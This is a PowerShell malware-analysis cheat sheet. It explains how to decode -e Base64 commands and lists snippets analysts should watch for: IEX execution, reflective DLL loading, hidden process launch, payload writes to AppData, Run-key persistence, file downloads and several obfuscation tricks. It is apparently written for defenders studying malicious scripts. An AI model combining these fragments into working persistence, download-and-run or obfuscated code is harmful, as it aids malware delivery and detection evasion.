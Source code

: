 # Powershell Flags

## Encoded
Short Flag: -e
Usage: powershell -e <Base64 string>
Analysis:
Using Cyberchef
1. Copy paste the Base64 string
2. Use the recipe: Base64 Decode + Decode Text (UTF-16LE(1200))
3. Script Revelead

Using PowerShell
1. Substitute and use the script below
```
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('<Insert The Binary Here>'))
```

# Interesting Functions to look out for

## Powershell Code Execution
Always look out for `IEX` in every format. Used to execute additional Powershell code. 
Often found to be obfuscated in various of ways

```

```

## Loading DLL into Memory
```
[Reflection.Assembly]::Load($hgh2).GetType('R2').GetMethod('Run').Invoke($null,$YOO)
```

## File Execution
```
saps -FilePath $FileName -ArgumentList $Args -WindowStyle Hidden

# Examples
saps -FilePath $ExecutionContext.InvokeCommand.ExpandString([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JAB7AF8AXwAvAFwAXwBfAF8ALwA9AD0AXAAvAFwAXwBfAC8APQB9AA=='))) -ArgumentList $ExecutionContext.InvokeCommand.ExpandString([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JAB7AF8AXwAvAFwALwA9AFwALwBcAC8APQA9AFwALwA9AFwAXwB9AA=='))) -WindowStyle Hidden

```

## File Write to File System
```
$base64string = "<Insert Super Long File base64 string here>"
$FilePath = "$Env:AppData\qjMzIzFT.zip"
$FileBytes = [System.Convert]::FromBase64String($base64string)
[System.IO.File]::WriteAllBytes($FilePath, $FileBytes)

```

## Run Registry Edit
```
$FilePath = "$Kacnxifj\Qetto-2-Connect.exe"
$RegistryKey = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
$RegistryName = "NetUtilityApp"
if (Get-ItemProperty -Path $RegistryKey -Name $RegistryName -ErrorAction SilentlyContinue) {
  Set-ItemProperty -Path $RegistryKey -Name $RegistryName -Value $FilePath
} else {
  New-ItemProperty -Path $RegistryKey -Name $RegistryName -Value $FilePath -PropertyType "String"
}
```

## File Download
```
# Method 1
${web_httpclient} = New-Object System.Net.WebClient
${web_httpclient}.DownloadFile(${str_url}, ${FileName})

# Method 2
iwr https://example.com/file.zip -OutFile "file.zip"
Invoke-WebRequest https://example.com/file.zip -OutFile "file.zip"

```

## Usage of COM object
```
# Example of using COM Object to copy file
$ShellApp = New-Object -ComObject Shell.Application
$sourceFolder = $ShellApp.NameSpace($sourcePath)
$destinationFolder = $ShellApp.NameSpace($destinationPath)
$destinationFolder.CopyHere($sourceFolder.Items(), 4 + 16)
```

## Common Obfuscation
### Replace
```
# Creates an alias GG that will execute 'IEX'
$t0='JOOOOIEX'.replace('JOOOO','');sal GG $t0;
```

### Obscure Variable Names
```
${__/====\/=\__/===} = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcABzADoALwAvAG4AbwBkAGUAagBzAC4AbwByAGcALwBkAGkAcwB0AC8AdgAyADIALgAxADEALgAwAC8AbgBvAGQAZQAtAHYAMgAyAC4AMQAxAC4AMAAtAHcAaQBuAC0AeAA2ADQALgB6AGkAcAA=')))
${/===\/==\/=\/\_/\} = [System.IO.Path]::Combine($env:APPDATA, "")
${___/=\__/==\_/\/=} = [System.IO.Path]::Combine($env:TEMP, $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZABvAHcAbgBsAG8AYQBkAGUAZAAuAHoAaQBwAA=='))))
```
Change the variable name to a more meaningful variable name.
1. Copy the code in a text editor
2. Use the find and replace with feature, while enabling the "Match Whole Word" option or any of its equivalent.
3. Search the variable name and replace it with a meaningful variable name.


### Base64
```
# Basic Use
$a = [Convert]::FromBase64String(<Base64 String or Variable>)

# Assigning Method to variable
$SSD=[system.Convert].GetMethod("FromBase64String")
$hgh=$SSD.Invoke($null,$obj)
```

A whole bunch of other stuff you can read here:
1. [Powershell Obfuscation Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)
2. [Invoke Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
